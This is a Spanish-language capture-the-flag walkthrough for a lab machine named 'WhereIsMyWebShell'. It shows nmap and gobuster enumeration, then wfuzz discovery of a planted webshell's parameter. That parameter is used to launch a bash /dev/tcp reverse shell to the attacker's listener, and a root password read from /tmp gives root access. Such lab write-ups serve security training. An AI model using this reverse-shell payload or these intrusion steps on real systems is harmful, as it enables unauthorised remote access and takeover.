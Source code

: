 # WhereIsMyWebShell

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```
Reviamos la web vemos un mensaje que han dejado.
```
Contáctanos

¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
Nos quedmos que tenenmos que revisar el direcctorio **/tmp** cuando tengamos acceso al equipo. De momento vamos a hacer fuzzing a ver si encontramos algo.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished

```
Hay dos páginas que llaman la atención **/warning.html** y **/shell.php**, así que vamos a revisarlas.
En **/warning.html** encontramos el siguiente mensaje que ya nos indica que tenemos que buscar un parámetro para poder utilizar una websell.
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
```bash
wfuzz -c -t 200 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
Utilizamos **wfuzz** para buscar el parámetro que nos falta con eso lanzarnos una revershell poniéndonos en escucha por el puerto 443 de nuestro equipo.
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```
Nos ponemos en escucha por el puerto 443 y lanzamos una reverse shell desde la página **http://172.17.0.2/shell.php**
```bash
nc -lvnp 443
```

```bash
172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 %2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261"
```
```
 nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37622
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d9fa4b4b8612:/var/www/html$ whoami
whoami
www-data
```
Recordar que al principio nos habían dejado en la página principal que había un secreto en la ruto ***/tmp**, así que vamos a ver.
```bash
www-data@d9fa4b4b8612:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt 1 root root 4096 May 20 04:55 .
drwxr-xr-x 1 root root 4096 May 20 04:55 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt
```
Vemos que oculto hay un archivo **.secret.txt**.
```bash
www-data@d9fa4b4b8612:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123
```
Parece que tenemos la contraseña de root, así que cambiamos de usuario utilizando la contraseña encontrada y ya tenemos acceso a la máquina como root.
```bash
www-data@d9fa4b4b8612:/tmp$ su root
su root
Password: contraseñaderoot123
whoami
root
```

